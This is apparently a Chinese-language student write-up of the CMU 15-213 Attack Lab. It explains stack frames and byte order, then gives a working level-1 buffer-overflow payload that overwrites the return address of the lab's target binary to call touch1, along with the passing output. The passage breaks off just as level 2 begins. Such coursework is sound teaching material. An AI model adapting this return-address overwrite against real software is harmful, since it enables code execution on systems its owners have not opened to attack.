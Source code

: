 可以看到 `getbuf` 在局部栈中开辟了 `0x28` 个字节的空间，也就是 40 个字节的空间。如果我们的输入超过了 40 个字节，就会造成缓冲区溢出。

![](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543732420.png)

{% note info %}
将控制从函数 P 转移到函数 Q 只需要简单地把程序计数器设置为 Q 的代码的起始位置，当稍后从 Q 返回时，处理器必须记录好它需要继续 P 的执行的代码位置。
被调用者 Q 的栈帧自栈底（高地址）到栈顶（低地址）包括了被保存的寄存器，局部变量和参数构造区。
调用者 P 的栈帧自栈底（高地址）到栈顶（低地址）包括了参数以及返回地址。
{% endnote %}

溢出的字符会直接覆盖调用者栈帧中的返回地址，所以把 `touch1` 函数的地址作为溢出的字符串，从而覆盖返回地址。

```x86asm
00000000004017c0 <touch1>:
```

接下来需要考虑大小端问题，因为这决定了把 `touch1` 函数的地址追加在前面还是后面。

看这一行代码，可以推测出这是小端。

```x86asm
4017d8:   bf 01 00 00 00          mov    $0x1,%edi
```

{% note info %}
数字 0x12345678 从低地址往高地址看，在大端系统中是 0x12345678，在小端系统中是 0x78563412。
{% endnote %}

然后新建文件 `level1` 并且写入以下内容。前面 40 个字节没有关系，只要不是 `0a`，因为这是 `\n` 会导致换行，那么后面的就不能传入了。

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 00 00
```

```sh
➜  target1 git:(master) ✗ cat level1| ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
    user id    bovik
    course    15213-f15
    lab    attacklab
    result    1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 00 00
```

## 第二关

这一关的任务是让 `ctarget` 执行函数 `touch2` 的代码，而不是返回到 `test` 函数中。同时必须让 `touch2` 函数以为它接收到的参数是 `cookie`。

```c
void touch2( unsigned val )
{
    vlevel = 2;
    if ( val == cookie )
    {
        printf( "Touch2!: You called touch2(0x%.8x)\n", val );
        validate( 2 );
    } else {
        printf( "Misfire: you called touch2(0x%.8x)\n", val );
        fail( 2 );
    }
    exit( 0 );
}
```
